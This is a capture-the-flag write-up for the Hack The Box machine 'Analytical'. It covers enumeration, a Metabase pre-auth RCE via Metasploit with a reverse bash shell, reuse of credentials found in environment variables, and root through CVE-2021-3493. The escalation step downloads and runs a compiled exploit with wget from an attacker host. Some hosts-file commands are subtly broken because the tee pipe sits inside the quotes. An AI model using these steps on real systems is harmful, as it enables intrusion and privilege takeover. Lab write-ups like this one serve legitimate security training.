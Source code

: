 # Enumeration

The nmap scan reveals two open ports 22 for ssh and 80 where a website is hostet with the dnsname http://analytical.htb

## Enter domain to hosts-file

```
echo '10.10.11.233 analytical.htb | sudo tee -a /etc/hosts'
```

## Login-Panel and adding subdomain

On the website we find the subdomain data.analytical.htb . href of the Login-Button.

```
echo '10.10.11.233 data.analytical.htb | sudo tee -a /etc/hosts'
```

# Foothoold

The Loginpage leads us to the Software Metabase. By google 'metabase exploit' one of the first links is about a Pre-Auth RCE. https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

This article explains it in detail. By searching for the setup-token at the sourcecode of the login-pages it is verified this works. 

## Using Metasploit to gain access

By starting Metasploit and searching for Metabase we get one result which we select by use 0.

```
msfconsole
search Metabase
use 0
```

Module options(exploit/linux/http/metabase_setup_token_rce):
RHOSTS     data.analytical.htb  
RPORT      80
TARGETURI  / 

Payload options(cmd/unix/reverse_bash):
LHOST  tun0
LPORT  4444

## User SSHlogin

```
env
```

Gives us a META_PASS and META_USER which are the ssh credentials.

# Priviliges Escalation 

## Briskets

```
cat /etc/os-release
```

Reveals the Ubuntu 20.04 LTS which is vulnerable for the briskets.

https://github.com/briskets/CVE-2021-3493

On attacker site
```
git clone https://github.com/briskets/CVE-2021-3493
cd CVE-2021-3493/
gcc exploit.c -o exploit
python3 -m http.server PORT
```

On victim site 
```
wget http://IP:PORT/exploit
chmod +x exploit
./exploit
```






